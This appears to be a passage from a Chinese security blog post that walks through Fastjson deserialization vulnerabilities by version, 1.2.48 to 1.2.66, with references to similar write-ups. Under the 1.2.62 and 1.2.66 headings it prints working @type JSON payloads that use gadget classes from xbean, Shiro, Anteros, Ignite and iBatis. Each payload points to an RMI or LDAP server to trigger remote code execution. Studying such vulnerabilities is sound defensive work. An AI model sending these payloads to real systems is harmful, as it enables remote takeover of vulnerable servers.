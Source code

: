 ![image-20220414171302731](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173325259-165680072.png)

走到这，成功获取到jdbcRowSetImpl，然后就是自动自行我们的set方法，setDataSourceName、setautoCommit执行lookup，造成rce

![image-20220414171512585](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173325907-911466020.png)

### 2.7、Fastjson:1.2.48

黑名单多了两条，MiscCodec中将默认传入的cache变为false，checkAutoType()调整了逻辑

### 2.8、Fastjson:1.2.62

*   需要开启AutoType；
*   Fastjson <= 1.2.62；
*   JNDI注入利用所受的JDK版本限制；
*   目标服务端需要存在xbean-reflect包；

    {"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}";
    

![image-20220414172925188](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173326876-620109821.png)

### 2.9、Fastjson:1.2.66

    // 需要autotype true
    {"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
    {"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
    {"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
    {"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"}}
    
    

参考链接  
[https://y4er.com/post/fastjson-learn/](https://y4er.com/post/fastjson-learn/)  
[https://www.cnblogs.com/nice0e3/p/14776043.html](https://www.cnblogs.com/nice0e3/p/14776043.html)
